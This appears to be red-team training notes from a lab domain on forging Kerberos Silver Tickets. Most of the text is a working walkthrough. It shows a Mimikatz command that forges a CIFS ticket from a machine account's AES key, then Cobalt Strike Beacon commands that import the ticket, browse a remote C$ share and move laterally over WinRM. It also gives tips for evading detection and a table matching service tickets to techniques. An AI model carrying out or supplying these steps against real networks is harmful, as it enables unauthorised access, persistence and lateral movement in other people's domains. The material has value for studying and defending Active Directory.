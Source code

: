 A Silver Ticket is a forged TGS, signed using the secret material (RC4/AES keys) of a machine account. You may forge a TGS for any user to any service on that machine, which is useful for short/medium-term persistence (until the computer account password changes, which is every 30 days by default).

Silver and Golden (below) tickets can be generated "offline" and imported into your session. This saves executing Mimikatz on the target unnecessarily which is better OPSEC. Generating both silver and golden tickets can be done with the Mimikatz `kerberos::golden` module.

On your attacking machine:

```
mimikatz # kerberos::golden /user:Administrator /domain:dev.cyberbotic.io /sid:S-1-5-21-3263068140-2042698922-2891547269 /target:srv-2 /service:cifs /aes256:babf31e0d787aac5c9cc0ef38c51bab5a2d2ece608181fb5f1d492ea55f61f05 /ticket:srv2-cifs.kirbi
User      : Administrator
Domain    : dev.cyberbotic.io (DEV)
SID       : S-1-5-21-3263068140-2042698922-2891547269
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: babf31e0d787aac5c9cc0ef38c51bab5a2d2ece608181fb5f1d492ea55f61f05 - aes256_hmac
Service   : cifs
Target    : srv-2
Lifetime  : 25/05/2021 10:30:08 ; 23/05/2031 10:30:08 ; 23/05/2031 10:30:08
-> Ticket : srv2-cifs.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !
```

Where:

-   `/user` is the username to impersonate.
-   `/domain` is the current domain name.
-   `/sid` is the current domain SID.
-   `/target` is the target machine.
-   `/aes256` is the AES256 key for the target machine.
-   `/ticket` is the filename to save the ticket as.

  

```
beacon> make_token DEV\Administrator FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\srv2-cifs.kirbi
beacon> ls \\srv-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     05/06/2021 09:49:35   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     05/16/2021 13:00:02   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     03/29/2021 12:15:45   System Volume Information
          dir     02/17/2021 18:32:08   Users
          dir     05/15/2021 14:58:02   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 256mb    fil     05/25/2021 08:39:40   pagefile.sys

beacon> rev2self
```

>  **OPSEC Alert**  
Using the NTLM is useful when paired with the remote registry backdoor, but does it produce an `rc4_hmac` ticket.

Here are some useful ticket combinations:
|**Technique**|**Required Service Tickets**|
|:---:|:---:|:---:|
|psexec|CIFS|
|winrm|HOST & HTTP|
|dcsync (DCs only)|LDAP|


```
beacon> run klist

Current LogonId is 0:0x2d3d7

Cached Tickets: (2)

#0>    Client: Administrator @ dev.cyberbotic.io
    Server: host/srv-2 @ dev.cyberbotic.io
    KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
    Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
    Start Time: 5/26/2021 17:04:19 (local)
    End Time:   5/24/2031 17:04:19 (local)
    Renew Time: 5/24/2031 17:04:19 (local)
    Session Key Type: AES-256-CTS-HMAC-SHA1-96
    Cache Flags: 0
    Kdc Called:

#1>    Client: Administrator @ dev.cyberbotic.io
    Server: http/srv-2 @ dev.cyberbotic.io
    KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
    Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
    Start Time: 5/26/2021 17:06:34 (local)
    End Time:   5/24/2031 17:06:34 (local)
    Renew Time: 5/24/2031 17:06:34 (local)
    Session Key Type: AES-256-CTS-HMAC-SHA1-96
    Cache Flags: 0
    Kdc Called:

beacon> jump winrm64 srv-2 smb
[+] established link to child beacon: 10.10.17.68`
```